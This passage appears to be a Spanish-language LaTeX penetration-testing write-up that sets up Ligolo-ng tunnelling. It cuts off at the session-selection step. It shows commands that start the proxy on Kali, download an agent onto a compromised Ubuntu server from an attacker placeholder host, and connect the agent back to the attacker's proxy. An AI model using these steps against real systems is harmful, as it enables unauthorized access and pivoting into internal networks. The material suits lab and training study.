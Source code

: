 \subsubsection*{Inicio del proxy en Kali}

En la máquina atacante se descomprime Ligolo-ng y se inicia el proxy:

\begin{bashbox}
tar xvf ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
sudo ./proxy -selfcert
\end{bashbox}

El proxy queda escuchando por defecto en el puerto \texttt{11601}:

\begin{configbox}
INFO Listening on 0.0.0.0:11601
\end{configbox}

\subsubsection*{Transferencia del agente al servidor Ubuntu}

Desde Kali se puede levantar un servidor HTTP temporal:

\begin{bashbox}
python3 -m http.server 8000
\end{bashbox}

Desde el servidor Ubuntu comprometido se descarga el agente:

\begin{bashbox}
wget http://<IP_ATACANTE>:8000/agent
chmod +x agent
\end{bashbox}

\subsubsection*{Conexión del agente}

Desde el servidor comprometido se conecta el agente al proxy de Kali:

\begin{bashbox}
./agent -connect <IP_ATACANTE>:11601 -ignore-cert
\end{bashbox}

En la consola de Ligolo debe aparecer una nueva sesión:

\begin{configbox}
INFO Agent joined
\end{configbox}

\subsubsection*{Selección de sesión}

